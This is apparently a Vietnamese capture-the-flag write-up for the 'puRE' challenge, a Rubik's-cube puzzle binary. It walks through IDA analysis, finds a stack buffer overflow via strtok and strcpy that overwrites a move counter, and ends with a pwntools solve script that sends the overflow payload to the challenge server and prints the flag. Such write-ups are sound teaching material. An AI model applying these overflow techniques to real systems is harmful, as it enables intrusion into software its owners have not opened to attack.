# puRE

## DIE



Đề bài cho ta một file format: `ELF64`, chúng ta hãy phân tích file này trong ida để hiểu xem nó làm gì:

## IDA





Đọc sơ qua thì ta thấy chương trình cơ bản thực hiện như sau:

- Vòng lặp `while` vô tận trong đó:
    
    - Ta nhập input

    - Nếu `input == quit ||exit`: thoát vòng lặp và thoát chương trình

    - Nếu `input == solution`: in ra solution cho puzzle ta đang cần solve

    - Nếu `input == test`: tạo puzzle với 36 lần xáo trộn
    
    - Nếu `input == help`: leak ra seed để random
    
    - Nếu `input == challenge`: tạo puzzle với 1836 lần xáo trộn
    


Vậy bây giờ ta xem kĩ hơn điều kiện để vào được hàm lấy flag:



Vậy để lấy đươc flag thì ta cần:

- `togetflag != 0` <-- vào chế độ `challenge` <-- `toinchallenge!=0` <-- giải được cube với biến `togetflag == 0` <-- giải chế độ thành công cube của chế độ `test` <-- sử dụng `soluton` để biết được cách giải

Vậy điều kiện `1` và `2` ở trong hình là gì:



- Điều kiện `1` thì đơn giản chỉ cần là có sử dụng hàm `scramble()` đồng thời là sau khi xáo trộn chưa giải được



- Điều kiện `2` check xem input ta nhập vào có hợp lệ với một bước move không

## Exploid

Sau khi đọc xong thì ý tưởng của mình là:

- 1: giải cube được xáo trộn từ input = `test` bằng cách nhập solution để lấy giải sau khi xáo trộn

- 2: giải cube được xáo trộn từ input = `challenge` như trên và lấy được flag

Nhưng đời đâu như là mơ =))





Chương trình bị crash do biến `move` quá lớn, nhấn vào biến `move` để xem trong binary nó được locate như nào:



Biến `move` nằm ngay sau biến `src` , mình xref biến `src` thì thấy nó được strcpy từ biến `a1`:





ta lại thấy `a1` thực chất là `v11` mà `v11` được lấy từ biến `s`; hàm `strtok(s," ")` là copy string vào biến v11 đến khi gặp char `" "`



Mà `s` chính là input mà ta nhập vào mà size của `s` rất lớn => ở đây ta có một lỗi `bof` giúp ta thay đổi giá trị của biến `move`. Như vậy khi gần đạt đến giới hạn biến `move` thì ta thay đổi giá trị của nó thôi. Okey viết solve script thôi nào 

## Solve script

```python
#!/usr/bin/python3

from pwn import *
exe = ELF('./puRE', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b * printf

        c
        ''')
        sleep(1)


if args.REMOTE:
    p = remote('67.223.119.69',5025)
else:
    p = process([exe.path])


sl(b'test')
sl(b'solution')
p.recvuntil("Solution (36 moves):\r\n")
solvetest = p.recvline().split()
info("here")
print(solvetest)
for move in solvetest:
    sl(move)
    


sl(b'challenge')
sl(b'solution')
p.recvuntil("Solution (1836 moves):\r\n")
solvetest = p.recvuntil(">>",drop=True).split()
info("here")
print(solvetest)
#GDB()
count = 0
for move in solvetest:
    sl(move)
    p.recvuntil(">>")
    count = count +1
    if count == 997:
       sl(b"a"*0x64+b'0') 

p.interactive()

```




**FLAG**: `KCSC{Does the "p" in puRE stand for puzzle or pwn? Congrats, no matter how u solve it. puREvenge in KCSC CTF won't be this easy}`